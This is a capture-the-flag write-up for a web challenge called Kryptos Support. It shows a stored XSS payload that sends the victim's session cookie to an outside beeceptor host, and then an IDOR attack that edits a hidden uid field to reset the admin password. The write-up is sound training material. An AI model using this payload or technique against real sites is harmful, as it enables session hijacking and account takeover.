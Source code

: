 # Web 1: Kryptos Support
> The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?


#### Difficulty: ★☆☆☆

No downloadable elements for this one, so I spun up the Docker image and accessed the site. Using View Source I was able to see the javascript file `support.js` which contains the ticket creation code.
Clicking the BACKEND link on the top left leads us to a login screen, with username and password fields. Upon checking the `login.js` from this page, looks like the login process just redirects via `window.location.href` which probably means that there are cookies involved.

Going back to the ticket submission screen, it doesn't seem like there are any protections for **XSS**, so I let loose the usual XSS payloads to hopefully steal some cookies. I created a beeceptor hook for this testing and used the following payload:

`<script> var i = new Image(); i.src = "https://hansoo.free.beeceptor.com/?cookie=" + escape(document.cookie); </script>`

I was able to get the session cookie from my beeceptor hook, which I added using Chrome's devtools. With this cookie, I was able to see the tickets that have been submitted. I tried editing the JWT, noticing that it has fields for username (moderator) and uid (100), but my attempts were not fruitful.

I clicked the Settings link on the top left, which brought me to a password update screen. With dev tools open, I changed the password for moderator and checked the payload.
`{password: "password123", uid: "100"}`

The payload contains a uid, so I searched the page to see where this uid is being set. Turns out there is a hidden field that sets the uid to 100. There is nothing stopping me from just changing this to a different uid, which means that the password change screen is vulnerable to **Insecure direct object references (IDOR)** attacks so I changed it to 1 and used the same password.

`Password for admin changed successfully!`

I then logged in as admin using the password I set, which rewarded me with the flag.

`HTB{x55_4nd_id0rs_ar3_fun!!}`
